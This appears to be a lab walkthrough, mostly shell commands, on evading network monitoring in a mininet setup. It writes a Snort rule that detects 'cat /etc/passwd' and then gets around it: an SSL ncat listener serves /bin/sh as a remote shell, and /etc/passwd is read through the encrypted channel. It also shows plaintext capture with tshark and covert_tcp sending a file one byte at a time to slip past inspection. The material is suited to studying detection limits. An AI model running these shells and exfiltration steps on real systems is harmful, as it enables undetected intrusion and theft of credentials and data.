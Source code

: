 # Evading Snort Rule
## Startup mininet
```
sudo mn
```
## Edit snort rules
```
sudo nano /etc/snort/rules/local.rules
```
```
alert tcp any any -> $HOME_NET any (msg:"System file access"; content:"cat /etc/passwd"; sid:1000003;)
```
## Start snort with new rule
```
mininet/util/m h1 snort -A console -c /etc/snort/snort.conf1 -i h1-eth0
```
## Start Encrypted SSL Listener
```
h1 ncat --ssl -l -p 999 -e /bin/sh &
```
## Connect to netcat listener
```
h2 ncat --ssl h1 999
```
## Exfil data that would trigger snort rule in plaintext
```
cat /etc/passwd
```
# Evading Tshark monitoring
## Start Tshark
```
sudo tshark -i lo -V port 10000 | grep secret
```
## Start ncat listener
```
sudo ncat -l -p 10000
```
## Send message via ncat
```
ncat skillsetlocal.com 10000
secret message
```
message was captured on TShark

# Send message with covert tcp tool sending one byte at a time
## Setup temp folder
```
mkdir /tmp/receive
```

## Start the covert listener
```
sudo ./covert_tcp -dest localhost -source localhost -source_port 10000 -dest_port 20000 -server -file /tmp/receive/file.txt
```

## create tmp/send folder
```
mkdir /tmp/send
```

## Create message
```
cat > /tmp/send/file.txt
secret message
```

## Send the message
```
sudo ./covert_tcp -dest localhost -source localhost --source_port 20000 -dest_port 10000 -file /tmp/send/file.txt
```
